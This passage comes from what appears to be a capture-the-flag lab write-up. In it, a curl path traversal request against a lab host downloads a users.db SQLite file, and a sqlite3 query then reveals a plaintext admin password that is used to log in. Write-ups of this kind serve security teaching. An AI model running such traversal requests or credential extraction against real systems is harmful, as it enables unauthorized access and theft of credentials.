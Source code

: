 ![image*](/img/image-20211106071214604.png)

This file shows connecting to a `users.db` SQLite file.

I'll download it with `curl`:



    oxdf@hacky$ curl --path-as-is -o users.db 'http://10.10.11.127/admin/view/../../../../home/flask/app/users.db'
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  8192  100  8192    0     0   145k      0 --:--:-- --:--:-- --:--:--  145k



There's a single table with a single row with an admin user and a clear
text password:



    oxdf@hacky$ sqlite3 users.db 
    SQLite version 3.31.1 2020-01-27 19:55:54
    Enter ".help" for usage hints.
    sqlite> .tables
    users
    sqlite> select * from users;
    0|admin|u_will_never_guess_this_password



With this, I can log into the site:

![](/img/image-20211105063756178.png)
